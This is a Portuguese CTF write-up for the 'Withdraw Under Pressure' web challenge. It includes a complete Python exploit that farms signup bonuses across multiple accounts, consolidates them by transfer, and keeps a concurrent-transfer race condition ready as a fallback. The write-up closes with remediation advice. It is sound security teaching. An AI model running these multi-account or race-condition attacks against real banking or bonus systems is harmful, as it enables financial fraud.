

# Withdraw Under Pressure | Fluid Attacks CTF 2026

`web` `business-logic` `signup-bonus-abuse` `multi-account` `race-condition`

| | |
|---|---|
| **Plataforma / evento** | Fluid Attacks CTF 2026 (etapa 2, 04/07/2026) |
| **Categoria** | Web |
| **Resolvido em** | 2026-07-04 |

## TL;DR

O banco "Meridian Trust" dá US$ 100 de bônus para toda conta nova e permite transferência livre entre contas. O upgrade "Premium Account Access" custa US$ 500 e, ao ser comprado, devolve a flag (um certificado de membro). Então eu abuso da lógica de negócio: crio 5 contas (uma principal + 4 auxiliares), cada uma nasce com US$ 100, e transfiro os US$ 100 das 4 auxiliares para a principal. A principal chega a US$ 500, compra o premium e recebe a flag. O nome sugere race condition (e eu deixei esse ataque pronto como plano B), mas a simples consolidação de bônus já bastou.

> [!IMPORTANT]
> **Ideia-chave:** bônus de cadastro + criação ilimitada de contas + transferência livre = dinheiro infinito. Não precisa de bug técnico, só de abusar da regra de negócio.

## Enunciado

> Meridian Trust online banking. Transfer funds and upgrade your account.

**Arquivos / instância:** sem código-fonte, só o site. Na minha instância o host era `084a0a05e3cbd32e.chal.ctf.ae`. Tem `/register`, `/login`, `/balance`, `/transfer`, `/store` e `/store/buy`.

## Dicas progressivas

<details><summary>Dica 1</summary>Quanto cada conta nova ganha de bônus? Quanto custa o Premium? Quantas contas você pode criar?</details>
<details><summary>Dica 2</summary>Transferência entre contas é livre. Junte o bônus de várias contas numa só.</details>
<details><summary>Dica 3</summary>5 contas x $100 = $500 numa principal. Compre <code>premium_access</code> em <code>/store/buy</code>.</details>

## Ambiente

- **Máquina atacante:** Kali Linux, Python 3 (`requests`).

***INSERIR no terminal: Kali (atacante)

```bash
export TARGET=https://084a0a05e3cbd32e.chal.ctf.ae
```

Na minha instância o host era esse (o script usa a constante `TARGET`).

## Resolução

### 1. Reconhecimento: a economia do app

Mapeando o fluxo: `/register` cria conta e já dá US$ 100 (visto no `/balance` logo após o registro); `/transfer` move dinheiro para outro usuário (`to_user`, `amount`); `/store` lista o "Premium Account Access" por US$ 500; `/store/buy` com `item=premium_access` compra. Comprar premium sem saldo dá 400. A conta principal sozinha tem US$ 100, insuficiente.

O baseline confirma o beco: registro a conta principal, ela nasce com US$ 100 e a compra do premium é recusada por saldo:

```text
[*] registrado principal, saldo inicial:
{"balance": 100.0}
[*] tentando comprar premium sozinho:
{"balance": 100.0, "error": "Insufficient funds"}
```

A pergunta é: de onde vêm os outros US$ 400? Como o cadastro é livre e cada conta ganha US$ 100, eu simplesmente crio mais contas e junto o dinheiro.

> [!TIP]
> **Conceito: abuso de bônus de cadastro / lógica de negócio.** Não há falha de código "quebrado"; a falha é a regra: bônus por conta, contas ilimitadas e transferência irrestrita formam um loop de criação de valor. É o mesmo padrão de fraudes reais de "referral bonus" e "welcome credit". A defesa é limitar bônus por identidade/dispositivo e exigir verificação. Referência: [OWASP: Testing for Business Logic](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/10-Business_Logic_Testing/README).

### 2. Exploração: consolidar o bônus

O exploit registra a principal, confirma que comprar premium sozinha falha, cria 4 auxiliares, transfere US$ 100 de cada para a principal (chegando a US$ 500) e compra o premium. O script também traz, como fallback, um ataque de race condition em `/transfer` (fase 2), que não precisou rodar porque a consolidação já resolveu. Script completo, idêntico ao arquivo em `scripts/`:

> [!NOTE]
> O `TARGET` está fixo no topo do script (era a minha instância). Troque pela sua antes de rodar.

#### `scripts/script3.py`

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

"""
script3.py

Objetivo:
1. Confirmar o endpoint correto de compra premium: POST /store/buy item=premium_access.
2. Criar uma conta principal recebedora.
3. Criar contas auxiliares com bônus inicial de $100.
4. Transferir o bônus das auxiliares para a principal.
5. Comprar Premium Account Access.
6. Se a consolidação simples não funcionar, tentar race condition em /transfer.

Hipótese 1:
A falha é de lógica de negócio: múltiplas contas novas recebem bônus e podem transferir para uma única conta.

Hipótese 2:
A falha é condição de corrida: várias transferências simultâneas passam na checagem de saldo antes do débito ser persistido.
"""

import re
import sys
import time
import json
import string
import secrets
import threading
from pathlib import Path
from concurrent.futures import ThreadPoolExecutor, as_completed

import requests
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

TARGET = "https://084a0a05e3cbd32e.chal.ctf.ae"
PASSWORD = "Guerreiro123"

LOOT = Path("loot")
LOOT.mkdir(exist_ok=True)

# Usamos nomes curtos, válidos no pattern [a-zA-Z0-9_]+ e abaixo de 20 chars.
# Sem timestamp grande para manter limpo no writeup.
RUN_ID = "".join(secrets.choice(string.ascii_lowercase) for _ in range(5))

MAIN_USER = "guerreiro" + RUN_ID
AUX_USERS = [
    "guerreiroa" + RUN_ID,
    "guerreirob" + RUN_ID,
    "guerreiroc" + RUN_ID,
    "guerreirod" + RUN_ID,
    "guerreiroe" + RUN_ID,
    "guerreirof" + RUN_ID,
]

FLAG_RE = re.compile(r"flag\{[^}\r\n]+\}", re.IGNORECASE)


def new_session():
    """
    Cria uma sessão HTTP com User-Agent fixo.
    Cada conta usa sua própria sessão para preservar cookies separados.
    """
    s = requests.Session()
    s.headers.update({
        "User-Agent": "Mozilla/5.0 CTF Withdraw Under Pressure",
    })
    return s


def save(name, response):
    """
    Salva resposta completa para evidência.
    """
    path = LOOT / name
    with open(path, "w", encoding="utf-8", errors="replace") as f:
        f.write(f"URL: {response.url}\n")
        f.write(f"STATUS: {response.status_code}\n")
        f.write("HEADERS:\n")
        f.write(json.dumps(dict(response.headers), indent=2, ensure_ascii=False))
        f.write("\n\nBODY:\n")
        f.write(response.text)
    return path


def show_json_or_text(label, response):
    """
    Imprime status e corpo de forma compacta.
    """
    print()
    print("=" * 90)
    print(label)
    print("=" * 90)
    print("[*] Status:", response.status_code)
    print("[*] URL:", response.url)
    print("[*] Content-Type:", response.headers.get("Content-Type"))

    try:
        data = response.json()
        print("[*] JSON:")
        print(json.dumps(data, indent=2, ensure_ascii=False))
    except Exception:
        body = re.sub(r"\s+", " ", response.text).strip()
        print("[*] Body:", body[:1000])

    match = FLAG_RE.search(response.text)
    if match:
        flag = match.group(0)
        print()
        print("[+] FLAG ENCONTRADA:", flag)
        with open("flag.txt", "w", encoding="utf-8") as f:
            f.write(flag + "\n")
        sys.exit(0)


def register(username):
    """
    Registra uma nova conta.
    Registro bem-sucedido normalmente retorna 302 para /dashboard e já seta cookie de sessão.
    """
    s = new_session()
    r = s.post(
        TARGET + "/register",
        data={"username": username, "password": PASSWORD},
        allow_redirects=False,
        timeout=15,
        verify=False,
    )
    save(f"script3_register_{username}.txt", r)

    print(f"[*] Register {username}: status={r.status_code} location={r.headers.get('Location')}")

    # Se por algum motivo já existir, tenta login.
    if r.status_code not in (200, 302):
        print(f"[!] Registro estranho para {username}; tentando login mesmo assim.")

    return s


def login(username):
    """
    Faz login e retorna sessão autenticada.
    """
    s = new_session()
    r = s.post(
        TARGET + "/login",
        data={"username": username, "password": PASSWORD},
        allow_redirects=True,
        timeout=15,
        verify=False,
    )
    save(f"script3_login_{username}.txt", r)

    ok = "/dashboard" in r.url and "Available balance" in r.text
    print(f"[*] Login {username}: status={r.status_code} ok={ok}")
    return s


def register_and_login(username):
    """
    Registra e depois autentica novamente para garantir sessão limpa.
    """
    register(username)
    return login(username)


def get_balance(session, username, label=""):
    """
    Consulta /balance.
    O dashboard chama essa rota no JavaScript depois de transferir.
    """
    r = session.get(
        TARGET + "/balance",
        timeout=15,
        verify=False,
    )
    save(f"script3_balance_{username}_{label}.txt", r)

    try:
        data = r.json()
        balance = float(data.get("balance"))
        print(f"[*] Balance {username} {label}: ${balance:.2f}")
        return balance
    except Exception:
        print(f"[!] Falha ao parsear /balance de {username}: status={r.status_code} body={r.text[:200]!r}")
        return None


def transfer(session, from_user, to_user, amount, label=""):
    """
    Envia dinheiro para outro usuário.
    Campos confirmados no HTML: to_user e amount.
    """
    r = session.post(
        TARGET + "/transfer",
        data={"to_user": to_user, "amount": str(amount)},
        timeout=20,
        verify=False,
    )
    save(f"script3_transfer_{from_user}_to_{to_user}_{label}.txt", r)

    try:
        data = r.json()
    except Exception:
        data = {"raw": r.text[:500]}

    ok = r.status_code == 200 and not data.get("error")
    print(f"[*] Transfer {from_user} -> {to_user} ${amount} label={label}: status={r.status_code} ok={ok} resp={data}")
    return ok, data, r


def buy_premium(session, username, label=""):
    """
    Compra premium usando o item correto descoberto no JavaScript: premium_access.
    Se a compra retornar flag, salva em flag.txt e encerra.
    """
    r = session.post(
        TARGET + "/store/buy",
        data={"item": "premium_access"},
        timeout=20,
        verify=False,
    )
    save(f"script3_buy_{username}_{label}.txt", r)
    show_json_or_text(f"POST /store/buy como {username} {label}", r)
    return r


def get_store(session, username, label=""):
    """
    Acessa /store para verificar se aparece botão de compra, certificado ou flag.
    """
    r = session.get(
        TARGET + "/store",
        timeout=15,
        verify=False,
    )
    save(f"script3_store_{username}_{label}.html", r)

    match = FLAG_RE.search(r.text)
    if match:
        flag = match.group(0)
        print("[+] FLAG ENCONTRADA EM /store:", flag)
        with open("flag.txt", "w", encoding="utf-8") as f:
            f.write(flag + "\n")
        sys.exit(0)

    text = re.sub(r"<[^>]+>", " ", r.text)
    text = re.sub(r"\s+", " ", text).strip()
    print(f"[*] Store {username} {label}: {text[:600]}")
    return r


def simple_bonus_consolidation():
    """
    Estratégia 1:
    Criar uma conta principal e 4 auxiliares.
    A principal começa com $100.
    Cada auxiliar começa com $100.
    Quatro auxiliares enviam $100 para a principal.
    Total esperado na principal: $500.
    """
    print()
    print("=" * 90)
    print("FASE 1: CONSOLIDAÇÃO DE BÔNUS")
    print("=" * 90)
    print("[*] Conta principal:", MAIN_USER)
    print("[*] Contas auxiliares:", ", ".join(AUX_USERS[:4]))

    main_session = register_and_login(MAIN_USER)
    get_balance(main_session, MAIN_USER, "initial")
    buy_premium(main_session, MAIN_USER, "initial_should_fail")

    aux_sessions = {}

    for aux in AUX_USERS[:4]:
        aux_session = register_and_login(aux)
        aux_sessions[aux] = aux_session
        get_balance(aux_session, aux, "before_transfer")
        transfer(aux_session, aux, MAIN_USER, "100.00", "bonus_consolidation")
        time.sleep(0.2)

    final_balance = get_balance(main_session, MAIN_USER, "after_consolidation")
    get_store(main_session, MAIN_USER, "after_consolidation")

    if final_balance is not None and final_balance >= 500:
        print("[+] Saldo suficiente na principal. Tentando comprar premium.")
        buy_premium(main_session, MAIN_USER, "after_consolidation")
        get_store(main_session, MAIN_USER, "after_buy")
        return True, main_session

    print("[-] Consolidação simples não chegou em $500. Vamos tentar race condition.")
    return False, main_session


def race_from_one_source_to_main(main_session):
    """
    Estratégia 2:
    Criar uma conta fonte com $100 e disparar várias transferências simultâneas de $100
    para a conta principal.

    Falha esperada em aplicações vulneráveis:
    Várias requisições verificam "saldo >= 100" ao mesmo tempo, todas passam,
    e todas creditam $100 ao destinatário.
    """
    print()
    print("=" * 90)
    print("FASE 2: RACE CONDITION EM /transfer")
    print("=" * 90)

    source_user = AUX_USERS[4]
    source_session = register_and_login(source_user)

    print("[*] Fonte da race:", source_user)
    get_balance(source_session, source_user, "race_source_initial")
    get_balance(main_session, MAIN_USER, "main_before_race")

    attempts = 12
    amount = "100.00"

    print(f"[*] Disparando {attempts} transferências simultâneas de ${amount} para {MAIN_USER}")

    start = threading.Event()
    results = []

    def worker(i):
        """
        Cada worker espera o sinal start para tentar alinhar as requisições.
        """
        local_session = login(source_user)
        start.wait()
        ok, data, response = transfer(local_session, source_user, MAIN_USER, amount, f"race_{i}")
        return i, ok, data, response.status_code

    with ThreadPoolExecutor(max_workers=attempts) as executor:
        futures = [executor.submit(worker, i) for i in range(attempts)]

        # Pequena pausa para todos os workers terminarem login e ficarem prontos.
        time.sleep(1.5)
        start.set()

        for future in as_completed(futures):
            result = future.result()
            results.append(result)

    print()
    print("[*] Resultados da race:")
    for i, ok, data, status in sorted(results):
        print(f"    worker={i} status={status} ok={ok} data={data}")

    get_balance(source_session, source_user, "race_source_after")
    main_balance = get_balance(main_session, MAIN_USER, "main_after_race")

    if main_balance is not None and main_balance >= 500:
        print("[+] Race gerou saldo suficiente. Tentando comprar premium.")
        buy_premium(main_session, MAIN_USER, "after_race")
        get_store(main_session, MAIN_USER, "after_race_buy")
        return True

    print("[-] Race não gerou saldo suficiente nessa rodada.")
    return False


def main():
    print("[*] Target:", TARGET)
    print("[*] RUN_ID:", RUN_ID)

    ok, main_session = simple_bonus_consolidation()

    if ok:
        print("[*] Se a flag não apareceu, revise loot/script3_buy_* e loot/script3_store_*")
        return 0

    race_from_one_source_to_main(main_session)

    print()
    print("=" * 90)
    print("REVISÃO FINAL")
    print("=" * 90)
    print("[*] Arquivos úteis:")
    print("    loot/script3_buy_*")
    print("    loot/script3_balance_*")
    print("    loot/script3_transfer_*")
    print("[*] Busca útil:")
    print("    /usr/bin/grep -RniE 'flag|premium|certificate|insufficient|balance|error|success' loot/script3_*")

    return 0


if __name__ == "__main__":
    sys.exit(main())
```

***INSERIR no terminal: Kali (atacante)

```bash
python3 scripts/script3.py
```

```text
FASE 1: CONSOLIDAÇÃO DE BÔNUS
[*] Balance guerreirocopzh initial: $100.00
POST /store/buy como guerreirocopzh initial_should_fail
[*] Status: 400                             <- premium sem saldo falha
[*] Transfer guerreiroacopzh -> guerreirocopzh $100.00 : status=200 ok=True
[*] Transfer guerreirobcopzh -> guerreirocopzh $100.00 : status=200 ok=True
[*] Transfer guerreiroccopzh -> guerreirocopzh $100.00 : status=200 ok=True
[*] Transfer guerreirodcopzh -> guerreirocopzh $100.00 : status=200 ok=True
[*] Balance guerreirocopzh after_consolidation: $500.00
[+] Saldo suficiente na principal. Tentando comprar premium.
POST /store/buy como guerreirocopzh after_consolidation
[*] Status: 200
  "flag": "flag{dde2a45ba6eXXXXX}",
```

Quatro transferências de US$ 100 levaram a principal de US$ 100 a US$ 500. A compra do `premium_access`, que antes dava 400 (saldo insuficiente), agora retorna 200 com o certificado de membro, que é a flag. A fase 2 (race) nem chegou a rodar.

## Cadeia de ataque



## Por que funciona

A suposição quebrada é que US$ 100 por conta é inofensivo porque "uma pessoa = uma conta". O app não amarra o bônus a nenhuma identidade verificável e deixa transferir sem limite, então criar N contas gera N x US$ 100 que convergem numa só. O premium que destrava a flag custa exatamente 5 bônus. Nenhuma falha de implementação foi necessária: a vulnerabilidade é a regra de negócio. (A race condition seria um segundo caminho, caso a transferência fosse limitada, mas não foi preciso.)

## Remediação

- Limitar o bônus por identidade real (KYC, verificação de e-mail/telefone, device fingerprint) e por período.
- Impor limites e revisão em transferências; detectar padrões de consolidação (muitas contas novas enviando para uma só).
- Tornar transferências e débitos atômicos/transacionais para também fechar a janela de race condition.

## Lições e padrões

- **Sinais para reconhecer:** crédito/bônus na criação de conta, cadastro sem verificação, e uma "loja" que destrava algo por um valor alcançável juntando bônus. Pense em multi-conta antes de pensar em bug técnico.
- **Da próxima vez eu tentaria primeiro:** calcular "quanto o alvo custa / quanto cada conta dá" e criar contas suficientes. Só se a transferência fosse limitada por conta eu iria para a race condition em `/transfer` (débito não atômico).

## Referências

- [OWASP WSTG: Business Logic Testing](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/10-Business_Logic_Testing/README)
- [OWASP: Testing for the Circumvention of Work Flows](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/10-Business_Logic_Testing/06-Testing_for_the_Circumvention_of_Work_Flows)

## Flag

```text
flag{dde2a45ba6eXXXXX}
```
